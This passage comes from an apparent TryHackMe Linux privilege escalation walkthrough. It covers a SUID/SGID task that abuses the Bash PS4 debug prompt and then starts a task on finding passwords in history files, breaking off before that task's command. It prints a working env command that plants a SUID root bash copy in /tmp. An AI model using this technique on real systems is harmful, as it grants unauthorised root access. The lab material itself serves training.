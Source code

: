 1. **Read and follow along with the above.**

> No answer required

### Task 15 : SUID / SGID Executables - Abusing Shell Features (#2)

This exploit does not work on "**Bash version 4.4 and above**".

When in debugging mode, Bash uses the environment variable **PS4** to display an extra prompt for debugging statements. We can modify the PS4 prompt to code that will spawn root shell.

```
env -i SHELLOPTS=xtrace PS4='$(cp /bin/bash /tmp/rootbash; chmod +xs /tmp/rootbash)' /usr/local/bin/suid-env2
```

![Exploiting Shell Vulnerability](images/thm-linux-privesc/exploiting-shell-2.png)

1. **Read and follow along with the above.**

> No answer required

### Task 16 : Passwords & Keys - History Files

If a user accidentally types their password on the command line instead of into a password prompt, it may get recorded in a history file. The content of the history file can be viewed using the following command:
